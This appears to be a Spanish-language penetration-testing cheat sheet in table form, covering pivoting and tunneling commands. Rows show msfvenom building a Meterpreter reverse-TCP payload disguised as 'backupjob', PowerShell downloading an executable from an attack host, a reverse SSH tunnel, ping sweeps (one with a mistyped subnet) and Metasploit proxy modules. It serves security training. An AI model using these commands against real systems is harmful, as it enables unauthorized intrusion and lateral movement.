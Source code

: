 | `python3 -m http.server 8123`                                                                                                                                                                                      | Utiliza Python3 para iniciar un servidor HTTP simple que escucha en el puerto `8123`. Se puede utilizar para recuperar archivos de un host.                                                                                                                                                           |
| `Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"`                                                                                                                | Comando de PowerShell utilizado para descargar un archivo llamado backupscript.exe desde un servidor web ( `172.16.5.129:8123`) y luego guarde el archivo en la ubicación especificada después `-OutFile`.                                                                                            |
| `ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:80 ubuntu@<ipAddressofTarget> -vN`                                                                                                                                    | Comando SSH utilizado para crear un túnel SSH inverso desde un objetivo a un host de ataque. El tráfico se reenvía en el puerto. `8080` en el host de ataque al puerto `80` en el objetivo.                                                                                                           |
| `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IPaddressofAttackHost -f elf -o backupjob LPORT=8080`                                                                                                        | Utiliza msfveom para generar una carga útil TCP inversa de Meterpreter basada en Linux que vuelve a llamar a la IP especificada después `LHOST=` en el puerto 8080 ( `LPORT=8080`). La carga útil toma la forma de un archivo elf ejecutable llamado backupjob.                                       |
| `msf6> run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23`                                                                                                                                                      | Comando Metasploit que ejecuta un módulo de barrido de ping contra el segmento de red especificado ( `RHOSTS=172.16.5.0/23`).                                                                                                                                                                         |
|                                                                                                                                                                                                                    |                                                                                                                                                                                                                                                                                                       |
| `for i in {1..254} ;do (ping -c 1 172.16.5.$i \| grep "bytes from" &) ;done`                                                                                                                                       | For Loop se utiliza en un sistema basado en Linux para descubrir dispositivos en un segmento de red específico.                                                                                                                                                                                       |
| `for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 \| find "Reply"`                                                                                                                                           | For Loop se utiliza en un sistema basado en Windows para descubrir dispositivos en un segmento de red específico.                                                                                                                                                                                     |
| `1..254 \| % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}`                                                                                                                          | Una línea de PowerShell utilizada para hacer ping a las direcciones 1 a 254 en el segmento de red especificado.                                                                                                                                                                                       |
| `msf6 > use auxiliary/server/socks_proxy`                                                                                                                                                                          | Comando Metasploit que selecciona el `socks_proxy` módulo auxiliar.                                                                                                                                                                                                                                   |
| `msf6 auxiliary(server/socks_proxy) > jobs`                                                                                                                                                                        | Comando Metasploit que enumera todos los trabajos actualmente en ejecución.                                                                                                                                                                                                                           |